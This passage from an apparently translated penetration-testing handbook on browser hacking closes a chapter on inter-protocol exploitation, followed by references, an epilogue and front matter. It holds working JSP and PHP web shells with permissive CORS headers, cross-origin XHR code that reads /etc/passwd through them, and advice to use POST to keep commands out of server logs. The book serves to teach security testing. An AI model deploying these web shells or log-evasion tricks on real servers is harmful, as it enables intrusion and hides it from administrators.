xhr.setRequestHeader("Content-Type", "text/plain");
xhr.setRequestHeader('Accept','*/*');
xhr.setRequestHeader("Accept-Language", "en");
xhr.sendAsBinary("cmd=" + BeEF_Bind_Stage);
```

这段代码向 BeEF Bind 监听器发送跨源 POST 请求，端口为 4444。cmd 参数的值是 Linux Stage，它会被加载到内存中，随后被执行并由初始 Stager 处理。Stage 发送后，你可以通过钩住的浏览器通过跨源方式执行操作系统命令。如图 Figure 10-32 所示，得益于 BeEF Bind CORS 头，你可以跨源获取命令执行结果。

 start figure 

**Figure 10-32:** 向 BeEF Bind 发送 netstat 命令


 end figure 

在此实例中，你使用了针对 Linux 系统的 BeEF Bind 代码作为预编译二进制。这段示例突出了 BeEF Bind 代码作为建立双向通信的手段，以向已被入侵的内部服务建立通信的强大性。

## 使用 BeEF Bind 作为 Web Shell

前面的 TrixBox 示例使用了漏洞下载并执行 BeEF Bind 二进制文件。另一种方法是重新创建 BeEF Bind 代码的逻辑，用 Java、ASP.NET 或 PHP 等不同语言实现，以此创建 BeEF Bind Web Shell。

当针对像第 9 章末尾所展示的脆弱 Web 应用进行攻击时，通常希望创建一个可作为新 Web 资源映射到特定 URL 的后门。例如，前面讨论的针对 JBoss 和 GlassFish 的攻击展示了如何部署新的 JSP 或 WAR 文件。部署后，你可以使用它来在目标上执行操作系统命令。使用 PHP 或 ASP.NET，如果你能通过 RCE 或文件上传漏洞在 Web 应用路径中添加文件，同样可以实现此目标。

在这些情况下，而不是依赖下载并执行 BeEF Bind 二进制文件，你可以将 BeEF Bind 代码的逻辑移植到任何服务器端 Web 应用语言中。换句话说，你可以创建 BeEF Bind Web Shell。

以下是 BeEF Bind 必须移植的三个主要特性，以使钩住的浏览器能够与 Web Shell 进行通信：

*   每个 HTTP 响应必须包含 Allow-Access-From-Origin: \*，以允许与钩住的浏览器进行双向跨源通信。

*   页面必须接受 POST 请求（Content-Type 为 text/plain 或 application/x-www-form-urlencoded），并包含 cmd 参数，该参数保存将要执行的命令。

*   执行的命令输出必须在 HTTP 响应中返回。

以下 JSP 满足上述所有要求，可用于第 9 章讨论的利用场景：

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
// 需要跨源通信
response.setHeader("Access-Control-Allow-Origin", "*");

try{
 // 需要处理 text/plain 数据
 BufferedReader br = request.getReader();
 String line = br.readLine(); 
 if(line != null){
  String[] cmds = line.split("cmd=");
  if(cmds.length > 0){
   String cmd = cmds[1];
   // 执行命令
   Process p = Runtime.getRuntime().exec(cmd);
   // 读取命令输出
   OutputStream os = p.getOutputStream();
   InputStream in = p.getInputStream();
   DataInputStream dis = new DataInputStream(in);
   String disr = dis.readLine();
   while(disr != null){
    out.println(disr);
    disr = dis.readLine();
   }
 } 
}catch(Exception e){
out.println("Exception!!");
}
%>
```

假设前面的 JSP 文件已成功部署到脆弱的 JBoss 6.0.0.M1 服务器上（与第 9 章讨论的利用方式相同），并名为 BeEF_Bind.jsp。由于每个 HTTP 响应都返回 Access-Control-Allow-Origin: \*，你可以跨源与这个新 JSP 页面进行交互。此外，JSP 会正确解析 text/plain POST 请求，并从 cmd 参数中执行命令。

下面是用于在钩住的浏览器中跨源与新建的 JSP BeEF Bind Web Shell 进行通信的 JavaScript 代码，与本章之前展示的跨源通信代码非常相似：

```
var uri = "http://browservictim.com";
var port = 8080;
var path = "BeEF_Bind.jsp";
var cmd = "cat /etc/passwd"
xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
 if(xhr.readyState == 4) {
  console.log(xhr.responseText);
 }
}
xhr.open("POST", uri + ":" + port + "/" + path, true);
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.setRequestHeader('Accept','*/*');
xhr.setRequestHeader("Accept-Language", "en");
xhr.send("cmd=" + cmd);


-   如图 10-33 所示，POST 请求是跨源发送的，命令结果会在 HTTP 响应中返回到被钩针的浏览器。从 `/etc/passwd` 中的注释可以看出，JBoss 正运行在 OS X 上。

start figure 

**Figure 10-33:** 命令的输出打印到 JS 控制台


end figure 

本文实现的方法可以在其他服务器端语言中实现。只要你能控制 HTTP 响应中的 CORS 头并且能执行系统命令，这种技术依然有效。

在 PHP 中实现相同逻辑仅需两行：

``` 
<?php header("Access-Control-Allow-Origin: *"); 
 echo @system($_POST['cmd']); 
?>
```

随后，可以通过修改 Content-Type 来使用之前讨论的 JavaScript 代码与该脚本交互：

```
xhr.setRequestHeader("Content-Type", 
"application/x-www-form-urlencoded");
```

总体而言，使用 POST 请求而非 GET 请求更好，因为默认情况下 Apache 服务器不会记录 POST 请求的请求体：

```
172.16.37.1 - - [10/Aug/2013:12:31:56 +0100] 
"POST /BeEF_Bind.php HTTP/1.1" 200 54884 
"http://browserhacker.com/" "Mozilla/5.0 
(Macintosh; Intel Mac OS X 10.8; rv:22.0) 
Gecko/20100101 Firefox/22.0"

172.16.37.1 - - [10/Aug/2013:12:32:10 +0100] 
"POST /BeEF_Bind.php HTTP/1.1" 200 5766 
"http://browserhacker.com/" "Mozilla/5.0 
(Macintosh; Intel Mac OS X 10.8; rv:22.0) 
Gecko/20100101 Firefox/22.0"
```

BeEF Bind 旨在成为轻量、平台无关的负载。它利用应用漏洞暴露后端通信通道以便进一步攻击。其两阶段架构意味着初始 Stager 可以在空间受限的情况下插入，从而让更大的 Stage 稍后出现。

通过公开的 CORS Web 界面，任何进一步的系统命令都可以提交到受影响的系统。此外，由于 BeEF Bind 构造相对简单，它可以被移植到众多语言中。

# Summary

本章探讨的技术主要针对网络设备和非 HTTP 协议。除非利用网络设备的 Web 界面，否则大多数攻击集中在跨协议场景上。

浏览器直接与 IRC 服务器通信并非标准用例，但如所示，这是可能的。此类通信在浏览器刚被开发时很可能根本未被设想。攻击通过浏览器跳转到非 HTTP 服务进行通信，并在某些情况下利用几乎标准的攻击方法对其进行利用。

通过使用跨协议通信和跨协议利用技术，你可以在网络的软肋处发起攻击。在许多情况下，这些方法甚至可以免除绕过硬化的防火墙等边界控制。这些攻击方法往往否定“只要设备在内部网络，就必须受到保护”这一假设。

在本章中，你还研究了 BeEF Bind 负载。它使你能够通过 IPE 间接与受害目标进行通信。BeEF Bind 现在让你能够在不需要通过防火墙建立显性出站连接的情况下，通过浏览器将通信渠道反射回 BeEF Server，从而获得更隐蔽的通信方式。

许多这些攻击侧重于提升你的网络访问权限，无论是通过未经授权的修改，还是利用额外服务。许多向量仍处于起步阶段，跨源浏览器利用其他非 Web 协议的可能性继续是安全研究者感兴趣的领域。

# Questions

Level1 **1.** Describe how to retrieve your target’s internal network IP address, and why this step is important. **2.** If you’re unable to detect your target’s internal network IP address, what else can you do to identify its subnet? **3.** Why is port banning an important security control? **4.** How can you verify if TCP ports 22, 25, and 143, which are banned by every browser, are actually open? **5.** Explain the NAT Pinning attack. **6.** When you achieve Inter-protocol Communication, is the SOP bypassed? **7.** Describe what Inter-protocol Exploitation is, with an example. **8.** What are the limitations of Inter-protocol Exploitation? **9.** Why is the BeEF Bind split into two requests, and what are they? **10.** Why is CORS important to BeEF Bind? 

/Level1

For answers to the questions, please refer to the book’s website [`browserhacker.com`](https://browserhacker.com). or the Wiley website at: [www.wiley.com/go/browserhackershandbook.](http://www.wiley.com/go/browserhackershandbook.)

**Notes**

1\. Mozilla. (2012). 748343––remove support for ‘java’ DOM object. Retrieved December 7, 2013 from [`bugzilla.mozilla.org/show_bug.cgi?id=748343`](https://bugzilla.mozilla.org/show_bug.cgi?id=748343)

2\. Lars Kindermann. (2011). My Address Java Applet. Retrieved October 29, 2013 from [`reglos.de/myaddress/MyAddress.html`](http://reglos.de/myaddress/MyAddress.html)

3\. W3C. (2011). WebRTC 1.0. Retrieved October 29, 2013 from [`dev.w3.org/2011/webrtc/editor/webrtc.html`](http://dev.w3.org/2011/webrtc/editor/webrtc.html)

4\. Louis Stowasser. (2013). WebRTC and the Ocean of Acronyms. Retrieved October 29, 2013 from [`hacks.mozilla.org/2013/07/webrtc-and-the-ocean-of-acronyms/`](https://hacks.mozilla.org/2013/07/webrtc-and-the-ocean-of-acronyms/)

5\. M. Hanley, V. Jacobson, and C. Perkins. (2013). SDP: Session Description Protocol. Retrieved October 29, 2013 from [`tools.ietf.org/html/rfc4566`](http://tools.ietf.org/html/rfc4566)

6\. Nathan Vander Wilt. (2013). Detecting Internal IP address with WebRTC. Retrieved October 29, 2013 from [`twitter.com/natevw/status/375517540484513792`](https://twitter.com/natevw/status/375517540484513792)

7\. Robert Hansen. (2009). XHR ping sweeping in Firefox 3.5. Retrieved October 29, 2013 from [`ha.ckers.org/blog/20090720/xmlhttpreqest-ping-sweeping-in-firefox-35/`](http://ha.ckers.org/blog/20090720/xmlhttpreqest-ping-sweeping-in-firefox-35/)

8\. SPI Dynamics Labs. (2006). Detecting, Analyzing, and Exploiting Intranet Applications using JavaScript. Retrieved October 29, 2013 from [`www.rmccurdy.com/scripts/docs/spidynamics/JSportscan.pdf`](http://www.rmccurdy.com/scripts/docs/spidynamics/JSportscan.pdf)

9\. Jeremiah Grossman. (2006). Hacking intranet websites from the outside. Retrieved October 29, 2013 from [`www.blackhat.com/presentations/bh-usa-06/BH-US-06-Grossman.pdf`](http://www.blackhat.com/presentations/bh-usa-06/BH-US-06-Grossman.pdf)

10\. Petko Petkov. (2006). JavaScript portscanner. Retrieved October 29, 2013 from [`www.gnucitizen.org/blog/javascript-port-scanner/`](http://www.gnucitizen.org/blog/javascript-port-scanner/)

11\. Sandro Gauci. (2002). Extended HTML Form Attack. Retrieved October 29, 2013 from [`eyeonsecurity.org/papers/Extended%20HTML%20Form%20Attack.htm`](http://eyeonsecurity.org/papers/Extended%20HTML%20Form%20Attack.htm)

12\. Sandro Gauci. (2008). The Extended HTML Form Attack revisited. Retrieved October 29, 2013 from [`resources.enablesecurity.com/resources/the%20extended%20html%20form%20attack%20revisited.pdf`](https://resources.enablesecurity.com/resources/the%20extended%20html%20form%20attack%20revisited.pdf)

13\. The Chromium Authors. (2012). net_util.cc. Retrieved October 29, 2013 from [`src.chromium.org/svn/trunk/src/net/base/net_util.cc`](http://src.chromium.org/svn/trunk/src/net/base/net_util.cc)


14. Mozilla. (2008). `nsIOService.cpp`. 2008 年，Mozilla。从[`http://lxr.mozilla.org/seamonkey/source/netwerk/base/src/nsIOService.cpp#87`](http://lxr.mozilla.org/seamonkey/source/netwerk/base/src/nsIOService.cpp#87)检索，10 月 29 日，2013 年。

15. Petko Petkov. (2010). `Attack API`. 2010 年，Petko Petkov。从[`https://code.google.com/p/attackapi/`](https://code.google.com/p/attackapi/)检索，10 月 29 日，2013 年。

16. Javier Marcos and Juan Galiana. (2011). `Pwning intranets with HTML5`. 2011 年，Javier Marcos 和 Juan Galiana。从[`http://2011.appsecusa.org/p/pwn.pdf`](http://2011.appsecusa.org/p/pwn.pdf)检索，10 月 29 日，2013 年。

17. Michele Orru. (2013). `BeEF RESTful API`. 2013 年，Michele Orru。从[`https://github.com/beefproject/beef/wiki/BeEF-RESTful-API`](https://github.com/beefproject/beef/wiki/BeEF-RESTful-API)检索，10 月 29 日，2013 年。

18. Mark Lowe. (2007). `Manipulating FTP Clients Using The PASV Command`. 2007 年，Mark Lowe。从[`http://bindshell.net/papers/ftppasv/ftp-client-pasv-manipulation.pdf`](http://bindshell.net/papers/ftppasv/ftp-client-pasv-manipulation.pdf)检索，10 月 29 日，2013 年。

19. W3C. (2013). `XMLHttpRequest states`. 2013 年，W3C。从[`http://www.w3.org/TR/XMLHttpRequest/#states`](http://www.w3.org/TR/XMLHttpRequest/#states)检索，10 月 29 日，2013 年。

20. Sami Kamkar. (2010). `NATpin`. 2010 年，Sami Kamkar。从[`http://samy.pl/natpin/`](http://samy.pl/natpin/)检索，10 月 29 日，2013 年。

21. Van Hauser and David Maciejak. (2013). `THC Hydra`. 2013 年，Van Hauser 和 David Maciejak。从[`http://www.thc.org/thc-hydra/`](http://www.thc.org/thc-hydra/)检索，10 月 29 日，2013 年。

22. FDS Team. (2013). `Security vulnerability: Routers acting as proxy when sending fake IRC messages`. 2013 年，FDS Team。从[`http://fds-team.de/cms/articles/2013-06/security-vulnerability-routers-acting-as-proxy-when-sending-fake.html`](http://fds-team.de/cms/articles/2013-06/security-vulnerability-routers-acting-as-proxy-when-sending-fake.html)检索，10 月 29 日，2013 年。

23. Wikipedia. (2013). `Direct Client-to-Client`. 2013 年，Wikipedia。从[`http://en.wikipedia.org/wiki/Direct_Client-to-Client`](http://en.wikipedia.org/wiki/Direct_Client-to-Client)检索，10 月 29 日，2013 年。

24. Harald Welte and Patrick McHardy. (2013). `IRC extension for IP connection tracking`. 2013 年，Harald Welte 和 Patrick McHardy。从[`https://github.com/torvalds/linux/blob/master/net/netfilter/nf_conntrack_irc.c`](https://github.com/torvalds/linux/blob/master/net/netfilter/nf_conntrack_irc.c)检索，10 月 29 日，2013 年。

25. Regit. (2013). `Open SVP`. 2013 年，Regit。从[`https://home.regit.org/software/opensvp/`](https://home.regit.org/software/opensvp/)检索，10 月 29 日，2013 年。

26. Wade Alcorn. (2006). `Inter-Protocol Communication`. 2006 年，Wade Alcorn。从[`http://www.bindshell.net/papers/ipc.html`](http://www.bindshell.net/papers/ipc.html)检索，10 月 29 日，2013 年。

27. Mozilla. (2013). `JavaScript Typed Arrays`. 2013 年，Mozilla。从[`https://developer.mozilla.org/en-US/docs/Web/JavaScript/Typed_arrays`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Typed_arrays)检索，10 月 29 日，2013 年。

28. Chromium Bugtracker. (2010). `Issue 35705: Extend XmlHttpRequest with getAsBinary() and sendAsBinary() methods`. 2010 年，Chromium Bugtracker。从[`https://code.google.com/p/chromium/issues/detail?id=35705`](https://code.google.com/p/chromium/issues/detail?id=35705)检索，10 月 29 日，2013 年。

29. Dan Goodin. (2010). `Firefox inter-protocol attack`. 2010 年，Dan Goodin。从[`http://www.theregister.co.uk/2010/01/30/firefox_interprotocol_attack/`](http://www.theregister.co.uk/2010/01/30/firefox_interprotocol_attack/)检索，10 月 29 日，2013 年。

30. Freenode blog. (2013). `JavaScript spam`. 2013 年，Freenode blog。从[`http://blog.freenode.net/2010/01/javascript-spam/`](http://blog.freenode.net/2010/01/javascript-spam/)检索，10 月 29 日，2013 年。

31. Deral Heiland. (2011). `From printer to pwnd`. 2011 年，Deral Heiland。从[`http://foofus.net/goons/percx/defcon/P2PWND.pdf`](http://foofus.net/goons/percx/defcon/P2PWND.pdf)检索，10 月 29 日，2013 年。

32. Aaron Weaver. (2007). `Cross site printing`. 2007 年，Aaron Weaver。从[`http://www.net-security.org/dl/articles/CrossSitePrinting.pdf`](http://www.net-security.org/dl/articles/CrossSitePrinting.pdf)检索，10 月 29 日，2013 年。

33. HP Support Center. (2013). `HP Jetdirect Print Servers`. 2013 年，HP Support Center。从[`http://h20000.www2.hp.com/bizsupport/TechSupport/Document.jsp?prodSeriesId=308316&objectID=c00048636`](http://h20000.www2.hp.com/bizsupport/TechSupport/Document.jsp?prodSeriesId=308316&objectID=c00048636)检索，10 月 29 日，2013 年。

34. Adobe. (1999). `PostScript language reference`. 1999 年，Adobe。从[`http://partners.adobe.com/public/developer/en/ps/PLRM.pdf`](http://partners.adobe.com/public/developer/en/ps/PLRM.pdf)检索，10 月 29 日，2013 年。

35. Wade Alcorn. (2007). `Inter-Protocol Exploitation`. 2007 年，Wade Alcorn。从[`http://nccgroup.com/media/18511/inter-protocol_exploitation.pdf`](http://nccgroup.com/media/18511/inter-protocol_exploitation.pdf)检索，10 月 29 日，2013 年。

36. Chris Anley, John Heasman, Felix Lindner, and Gerardo Richarte. (2007). `The Shellcoder’s Handbook, 2nd Edition`. 2007 年，Chris Anley, John Heasman, Felix Lindner, and Gerardo Richarte。从[`http://eu.wiley.com/WileyCDA/WileyTitle/productCd-047008023X.html`](http://eu.wiley.com/WileyCDA/WileyTitle/productCd-047008023X.html)检索，10 月 29 日，2013 年。

37. Ty Miller and Michele Orrù. (2012). `Exploiting internal network vulns via the browser using BeEF Bind`. 2012 年，Ty Miller 和 Michele Orrù。从[`http://2012.ruxcon.org.au/speakers/#Ty%20Miller%20&%20Michele%20Orru`](http://2012.ruxcon.org.au/speakers/#Ty%20Miller%20&%20Michele%20Orru)检索，10 月 29 日，2013 年。

38. SecForce. (2013). `Inter-Protocol Communication-Exploitation`. 2013 年，SecForce。从[`http://www.secforce.com/blog/tag/inter-protocol-exploitation/`](http://www.secforce.com/blog/tag/inter-protocol-exploitation/)检索，10 月 29 日，2013 年。

39. Denis Bazhenov. (2013). `Groovy Shell server`. 2013 年，Denis Bazhenov。从[`https://github.com/bazhenov/groovy-shell-server`](https://github.com/bazhenov/groovy-shell-server)检索，10 月 29 日，2013 年。

40. Brendan Coles. (2011). `EXTRACT Inter-Protocol exploitation`. 2011 年，Brendan Coles。从[`http://itsecuritysolutions.org/2011-12-16-Privilege-escalation-and-remote-inter-protocol-exploitation-with-EXTRACT-0.5.1/`](http://itsecuritysolutions.org/2011-12-16-Privilege-escalation-and-remote-inter-protocol-exploitation-with-EXTRACT-0.5.1/)检索，10 月 29 日，2013 年。

41. GNU. (2013). `Bash Brace Expansion`. 2013 年，GNU。从[`https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html`](https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html)检索，10 月 29 日，2013 年。

42. Tim Shelton. (2005). `Qualcomm WorldMail IMAPD Buffer Overflow Vulnerability`. 2005 年，Tim Shelton。从[`http://www.securityfocus.com/bid/15980/info`](http://www.securityfocus.com/bid/15980/info)检索，10 月 29 日，2013 年。

43. Craig Freyman. (2013). `ActiveFax raw server exploit`. 2013 年，Craig Freyman。从[`http://www.pwnag3.com/2013/02/actfax-raw-server-exploit.html`](http://www.pwnag3.com/2013/02/actfax-raw-server-exploit.html)检索，10 月 29 日，2013 年。

44. ActFax. (2013). `ActiveFax manual`. 2013 年，ActFax。从[`http://www.actfax.com/download/actfax_manual_en.pdf`](http://www.actfax.com/download/actfax_manual_en.pdf)检索，10 月 29 日，2013 年。

45. Mozilla. (2013). `XMLHttpRequest abort() method`. 2013 年，Mozilla。从[`https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest?redirectlocale=en-US&redirectslug=DOM%2FXMLHttpRequest#abort()`](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest?redirectlocale=en-US&redirectslug=DOM%2FXMLHttpRequest#abort%)检索，10 月 29 日，2013 年。

46. Corelan Team. (2013). `Mona`. 2013 年，Corelan Team。从[`http://redmine.corelan.be/projects/mona`](http://redmine.corelan.be/projects/mona)检索，10 月 29 日，2013 年。

47. Stephen Fewer. (2009). `Block Bind TCP shellcode`. 2009 年，Stephen Fewer。从[`https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_bind_tcp.asm`](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_bind_tcp.asm)检索，10 月 29 日，2013 年。

# *Chapter 11*

# *Epilogue: Final Thoughts*


The very fact that you have chosen to read a handbook on browser hacking suggests that you, like the authors, see the aggressive adoption of the browser all around you. Browsers are on phones, in cars, on ships, on planes, and even on the International Space Station! You could say the humble browser — along with HTML, JavaScript, and the DOM — has left the confines of our planet, taking its security implications with it.

Browser security challenges are not going to go away anytime soon. The arms race will go on. More browser features will be added and will be claimed to be better than the previous “best-ever” feature. New attack vectors will come and go. Stupid mistakes will be made by both sides because, don’t forget, we are all human.

It has been suggested that the number one problem within computer security is default permit — the tendency of any given request to be permitted unless explicitly disallowed. Historically, this has certainly been the case with the browser. Throughout this book we have discussed many security additions implemented subsequent to the initial release of the features they govern. This has resulted in browser security being applied post hoc.

The browser’s continued evolution is ultimately governed by a double arms race:

Level1 **1.** The arms race between browser variants competing for market share by being the most feature-packed, easy to use, efficacious, fast, and capable software in the market. **2.** The arms race between the developers creating security defenses and the hackers trying to defeat them and discover new attack vectors in old or new functionality. 

/Level1

An implicit interconnection exists between these two arms races. The constant drive for new features and richer functionality adds to the browser’s complexity and expands the attack surface, creating new ground for the second arms race to expand into. This effect is compounded by the potentially inverse relationship between security and functionality created by the necessity to abolish default permit and replace it with default deny. If default permit is allowed to persist, it is virtually inevitable that new security holes will be introduced with any additional functionality. New vulnerabilities will require post-hoc remediation as exploits are discovered, perpetuating the cat-and-mouse game.

Even where the principle of default deny is applied, it may not always be possible to define whitelists for every eventuality. Wherever a degree of flexibility is required, the possible permutations of component interactions increase. This expands the trust that the browser must place on the server or other external sources.

As security is given an increased focus by developers, there may be a reduction in the creation of exploitable conditions. There may be a resultant depression in their rate of discovery as a function of effort. Regardless, the efficacy of any new security controls will always be challenged as a function of the complexity of any new features. Further, if the population of web browser installations continues to expand and diversify, it is likely that the efforts of hackers attempting to leverage control over the newly expanded browser landscape will multiply to keep pace.

There is no substitute for field testing, and as the use of the web browser continues to increase and new uses for it are developed and distributed, a hard fact remains: the number of core browser features, add-ons, or components that are not battle hardened through being the subject of targeted attacks will increase. Developers may take measures to counteract this by subjecting new components to simulated attacks (penetration testing) prior to release and by enhancing the secure development life cycle. Even this is unlikely to guarantee that every permutation and every eventuality, or every possibility of human ingenuity, has been explored.

One thing is certain: a renewed effort to apply security during the initial design phase must be maintained if the intensity of the cat-and-mouse game is to be reduced. New browser features must strive to be completely secure out of the box if they are to survive in the field.

For the foreseeable future, in any developed urban area there will likely be more web browsers surrounding you at any given point than there are people to use them. Life has a history of favoring only the winners—the battle for the browser is only beginning. We hope we’ve helped shape your next move and, in those revelations, promoted a more trustworthy and secure web.

**Endnote**

1\. [`www.ranum.com/security/computer_security/editorials/dumb/`](http://www.ranum.com/security/computer_security/editorials/dumb/)

The Browser Hacker’s Handbook

Published by  

John Wiley & Sons, Inc.  

10475 Crosspoint Boulevard  

Indianapolis, IN 46256  

[www.wiley.com](http://www.wiley.com)

Copyright © 2014 by John Wiley & Sons, Inc., Indianapolis, Indiana

Published simultaneously in Canada

ISBN: 978-1-118-66209-0 ISBN: 978-1-118-66210-6 (ebk) ISBN: 978-1-118-91435-9 (ebk)

Manufactured in the United States of America

10 9 8 7 6 5 4 3 2 1

No part of this publication may be reproduced, stored in a retrieval system or transmitted in any form or by any means, electronic, mechanical, photocopying, recording, scanning or otherwise, except as permitted under Sections 107 or 108 of the 1976 United States Copyright Act, without either the prior written permission of the Publisher, or authorization through payment of the appropriate per-copy fee to the Copyright Clearance Center, 222 Rosewood Drive, Danvers, MA 01923, (978) 750-8400, fax (978) 646-8600. Requests to the Publisher for permission should be addressed to the Permissions Department, John Wiley & Sons, Inc., 111 River Street, Hoboken, NJ 07030, (201) 748-6011, fax (201) 748-6008, or online at [`www.wiley.com/go/permissions`](http://www.wiley.com/go/permissions).

Limit of Liability/Disclaimer of Warranty: The publisher and the author make no representations or warranties with respect to the accuracy or completeness of the contents of this work and specifically disclaim all warranties, including without limitation warranties of fitness for a particular purpose. No warranty may be created or extended by sales or promotional materials. The advice and strategies contained herein may not be suitable for every situation. This work is sold with the understanding that the publisher is not engaged in rendering legal, accounting, or other professional services. If professional assistance is required, the services of a competent professional person should be sought. Neither the publisher nor the author shall be liable for damages arising herefrom. The fact that an organization or Web site is referred to in this work as a citation and/or a potential source of further information does not mean that the author or the publisher endorses the information the organization or website may provide or recommendations it may make. Further, readers should be aware that Internet websites listed in this work may have changed or disappeared between when this work was written and when it is read.

For general information on our other products and services please contact our Customer Care Department within the United States at (877) 762-2974, outside the United States at (317) 572-3993 or fax (317) 572-4002.

Wiley publishes in a variety of print and electronic formats and by print-on-demand. Some material included with standard print versions of this book may not be included in e-books or in print-on-demand. If this book refers to media such as a CD or DVD that is not included in the version you purchased, you may download this material at [`booksupport.wiley.com`](http://booksupport.wiley.com). For more information about Wiley products, visit [www.wiley.com](http://www.wiley.com).

Library of Congress Control Number: 2013958295


Trademarks: `Wiley` and the `Wiley` logo are trademarks or registered trademarks of `John Wiley & Sons, Inc.` and/or its affiliates, in the United States and other countries, and may not be used without written permission. All other trademarks are the property of their respective owners. `John Wiley & Sons, Inc.` is not associated with any product or vendor mentioned in this book.

# 关于作者

`Wade Alcorn` ([@WadeAlcorn](http://@WadeAlcorn)) 在 IT 安全领域已经工作了比他愿意回忆的时间还长。他自小对拆解事物和解谜题的痴迷让他走上了职业道路。

`Wade` 是 `BeEF`（Browser Exploitation Framework）的创建者，这是一款被认为是利用浏览器最流行的工具之一。`Wade` 同时也是 `NCC group` 亚太区总经理，并负责对关键基础设施、银行、零售企业等进行安全评估。

`Wade` 致力于提升 IT 安全，热衷于为公共社区贡献并在此类国际会议上发表演讲。他发表了关于新兴威胁的技术文章，并发现了广泛使用软件中的漏洞。

`Christian Frichot` ([@xntrik](http://@xntrik)) 自从父亲把 `Amiga 1000` 带回家的那一天起就对电脑产生了兴趣。发现它无法在仅有 512KB RAM 的机器上运行 `Monkey Island`，他随即抱怨并最终获得了 2MB 的扩展。此后，`Christian` 在金融和资源行业从事多种 IT 工作，最终在澳大利亚珀斯创立了 `Asterisk Information Security`。

`Christian` 还积极参与软件开发，尤其专注于数据可视化、数据分析以及帮助企业更有效地管理安全和流程。作为 `BeEF`（Browser Exploitation Framework）的开发者之一，他也花时间研究如何最好地利用浏览器及其技术来辅助渗透测试。

除了破解浏览器外，`Christian` 还活跃于安全社区（你有看到他有多少条推文？），不仅是珀斯 OWASP 章节负责人，也是更广泛的珀斯安全社区的活跃参与者。

`Michele Orrù` ([@antisnatchor](http://@antisnatchor)) 是 `BeEF` 项目的核心开发者和“智慧招聘者”。他精通多种编程语言和范式，热衷于将这些知识应用于阅读和黑客代码的工作。

`Michele` 热爱横向渗透测试和为 `Trustwave` 客户进行应用安全测试。

`Martin` 有时会发现公开记录的漏洞，有时会在 `Black Hat USA`、`Shmoocon` 等会议上发表演讲，或在幕后工作，但他通常更愿意在沉思中被发现。

# 关于技术编辑

`Dr.-Ing. Mario Heiderich` ([@0x6D6172696F](http://@0x6D6172696F)) 是德国 `Cure53` 公司的创始人，专注于 HTML5、SVG 安全、无脚本攻击以及——最重要的是——浏览器安全（或其可悲的缺失）。他还相信，通过使用 JavaScript，XSS 终将被根除（实际上很快就能实现）。`Mario` 调用了 HTML5 安全快捷方式以及其他多个安全相关项目。在剩余时间里，他为大型德国和国际公司提供培训和安全咨询，收获丰厚的报酬，并为破解事物的单纯乐趣而投入。`Mario` 在众多国际学术和行业会议上发表演讲，合著两本著作和多篇学术论文，并且不认为让他两岁的儿子已经拥有平板电脑是有问题的。

# 致谢

执行编辑

`Carol Long`

项目编辑

`Ed Connor` `Sydney Argenta` `Jones`

技术编辑

`Mario Heiderich`

制作编辑

`Christine Mugnolo`

文本编辑

`Kim Cofer`

编辑经理

`Mary Beth Wakefield`

自由职业编辑经理

`Rosemarie Graham`

营销副总裁

`David Mayhew`

营销经理

`Ashley Zurcher`

业务经理

`Amy Knies`

副总裁兼执行集团出版商

`Richard Swadley`

副出版商

`Jim Minatel`

封面项目协调员

`Todd Klemme`

排版师

`Cody Gates`，`Happenstance Type-O-Rama`

校对员

`Josh Chase` 和 `Sarah Kaikini`，`Word One New York`

索引员

`Johnna VanHoose Dinse`

封面设计师及图像

`© Wiley`

# 致谢

我一生中无法实现任何有价值的成就离不开两位非常重要的人。衷心感谢我的美丽妻子 `Carla`，她提供了源源不断的支持和无限的灵感。尽管她的名字没有出现在封面上，但她的手一直参与到每一个词句的打磨中。我也要向我的偶像和儿子 `Owen` 致谢。正是他始终以灿烂的笑容面对每一个生活挑战，让所有障碍显得轻松许多。

我也很幸运能与 `Rob Horton` 和 `Sherief Hammad` 合作近十年。他们始终是持续鼓励的来源，并提供了一个激发创造力和横向思维的支持性工作环境。当然，也要感谢 `Michele` 和 `Christian` 与我一同踏上这段文学旅程。

— `Wade Alcorn`


我第一次在银行系统被破坏时认识了她，如果没有她无限的耐心，我不可能帮忙写这本书。对我亲爱的妻子 Tenille，我衷心感谢你，对我正在你体内成长的女儿——这本书是献给你的（确保你练习负责任的黑客小子）。我也必须感谢我的家人，向我的母亲 Julia 和父亲 Maurice 致谢，他们为我提供了所有让我能够参与这个令人惊叹的信息安全行业的机会。向我的姐妹 Hélène、Justine 和 Amy 致谢，你们是激励人心的，你们的支持非常受 appreciated。向我的 Asterisk Info Sec 家庭致谢，感谢你们让我抱怨这有多么艰难，并给了我有时间为这本书做贡献的机会，谢谢大卫·泰勒、斯蒂夫·舒普、科尔·伯格森、格雷格·罗伯茨和杰罗德·本内斯。我也必须感谢所有澳大利亚和新西兰黑客安全社区的成员，所有我在互联网和会议上认识的朋友，我很高兴能和你们一起成为这个社区的一员，继续加油。当然，我也要感谢 Wade 和 Michele，感谢你们邀请我参与这项巨大的任务，感谢你们的耐心，感谢你们教会我的一切，以及容忍我的蠢事！

— Christian Frichot

首先，我想感谢我的亲爱的 Ewa 在无数天夜里陪伴我做研究和为这本书工作时提供的道德支持。我衷心感谢我的父母，他们一直支持我，并给了我学习和获取新知识的机会。向我的好朋友 Wade Alcorn 和 Mario Heiderich 致谢，感谢他们为研究提供灵感和令人惊叹的讨论。如果没有他们，这本书就达不到我们所追求的质量。向相信并仍然相信 Full Disclosure 是漏洞披露方式的所有人致敬。最后，但不 least，向所有我的黑客朋友和安全研究员（你懂的）致以大拥抱，他们与我分享了攻击和会议后的余波。

— Michele Orrù

这本书的成果是团队努力的结果。首先，我们想向我们的两位贡献作者 Ryan Linn 和 Martin Murfitt 致谢。我们也感谢更广泛的安全社区，特别是 BeEF 多年来做出贡献的那群人。他们的大部分努力为我们今天呈现的内容奠定了基础。

Wiley 的好人们以及这本书的技术编辑也应得到非常大的感谢。Mario Heiderich、Carol Long 和 Ed Connor 必须得到特别提及，因为他们的（无尽的）耐心、支持和专业知识。

